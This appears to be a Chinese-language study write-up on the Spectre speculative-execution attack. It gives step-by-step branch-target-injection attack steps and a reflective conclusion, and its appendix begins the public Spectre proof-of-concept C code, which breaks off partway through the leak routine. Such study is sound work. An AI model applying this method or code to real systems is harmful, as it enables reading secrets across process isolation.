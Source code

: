 ##### victim instruction
攻击选择的间接跳转指令是调用sleep函数的`jmp dword ptr ds:[76AE0078h]`。
##### attack
攻击流程：

* 在ntdll.dll中定位gadget地址
* 将包含跳转目标地址的内存页改为可写，并修改跳转的地址为目标的gadget地址，同时修改gadget地址处的指令为ret 4。这将令attack process中对sleep函数的调用跳向gadget地址并直接返回。
* 开启一个单独的线程。并重复的尝试在cache中刷出76AE0078h。
* 开启一个线程训练并误导cpu，令其在跳转到[76AE0078h]会跳向gadget。
* 在训练完成后，修改文件，控制edi,ebx,令edi指向一个dll中的位置dll_base。这样，`adc dl,byte ptr [edi]` 会将一个dll中的地址m+dll\_base读入cache。（假设这个dll没有aslr）
* 通过flush reload确定m的值
这样的方法可以用来读取整个victim process内存的值。

## conclusion
软件安全的一个基本假设即是计算机会忠实的执行各项条件检查，保证程序间的隔离性，但是specture attack揭示了预测执行违反了这项安全假设。从结果来看，这个漏洞在很长时间内对安全环境造成了重大影响。    
从最初的对cache的侧信道攻击，硬件安全问题始终反映了在硬件和软件开发者之间，缺乏一个清晰的共识，什么信息是cpu可以在运算中泄漏的，而什么是不能泄漏的。    
同时，在性能和安全之间的每一次取舍，都值得反复思考，是否会破坏之前的安全假定。intel和AMD设计的闭源性，让人怀疑这样的问题还会再次出现。
## 附录中的代码
```
#include <stdio.h> 
#include <stdlib.h> 
#include <stdint.h> 
#ifdef _MSC_VER  
#include <intrin.h> 
/* for rdtscp and clflush */
#pragma optimize("gt",on) 
#else 
#include <x86intrin.h> 
/* for rdtscp and clflush */
#endif

/******************************************************************** 
Victim code.
********************************************************************/ 
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = { 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16 }; 
uint8_t unused2[64]; 
uint8_t array2[256 * 512];
char *secret = "The Magic Words are Squeamish Ossifrage.";
uint8_t temp = 0;

/* Used so compiler won’t optimize out victim_function() */
void victim_function(size_t x) { 
	if (x < array1_size) {
		temp &= array2[array1[x] * 512];
		/*try to leak the value of array1[x]*/
	}
}
/******************************************************************** 
Analysis code 
********************************************************************/
#define CACHE_HIT_THRESHOLD (80) /* assume cache hit if time <= threshold */
/* Report best guess in value[0] and runner-up in value[1] */  
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) 
{ 
	static int results[256];
	int tries, i, j, k, mix_i;
	unsigned int junk = 0;
```